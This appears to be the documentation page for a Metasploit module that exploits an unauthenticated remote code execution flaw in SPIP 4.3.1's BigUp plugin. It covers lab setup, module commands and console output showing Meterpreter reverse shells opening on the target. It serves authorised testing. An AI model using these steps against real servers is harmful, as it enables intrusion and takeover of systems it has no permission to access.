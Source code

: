 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

- **FORM_PAGE**: This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login` and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login` and `contact`) do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] The target appears to be vulnerable. The detected SPIP version (4.3.1) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.36:46322) at 2024-09-03 20:08:36 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] The target appears to be vulnerable. The detected SPIP version (4.3.1) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:58062) at 2024-09-03 20:09:20 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
